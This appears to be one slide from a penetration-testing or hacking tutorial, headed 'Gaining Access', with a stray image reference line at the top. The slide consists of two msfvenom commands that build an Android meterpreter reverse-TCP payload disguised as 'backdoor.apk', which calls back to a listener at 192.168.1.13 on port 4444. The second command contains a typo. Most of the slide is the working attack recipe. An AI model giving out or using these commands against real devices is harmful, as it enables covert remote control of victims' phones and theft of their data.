

III. Gaining Access
Create the Backdoor Script (option 1):
sudo msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.1.13 lport=4444 -o backdoor.apk
Create the Backdoor Script (you may specify the location):
msfvenom - p android/meterpreter/reverse_tcp lhost=192.168.1.13 lport=4444 -o /home/doods/backdoor.apk